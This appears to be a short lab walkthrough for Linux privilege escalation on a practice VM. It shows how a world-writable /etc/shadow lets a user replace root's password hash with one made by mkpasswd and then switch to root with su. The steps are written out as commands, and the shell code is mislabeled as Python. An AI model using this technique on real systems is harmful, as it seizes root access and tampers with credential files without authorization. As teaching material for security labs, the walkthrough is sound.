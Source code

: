 The /etc/shadow file contains user password hashes and is usually readable only by the root user.

**Note that the /etc/shadow file on the VM is world-writable:**
```python
ls -l /etc/shadow
```

**Generate a new password hash with a password of your choice:**
```python
mkpasswd -m sha-512 newpasswordhere
```
Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.

**Switch to the root user, using the new password:**
```python
su root
```

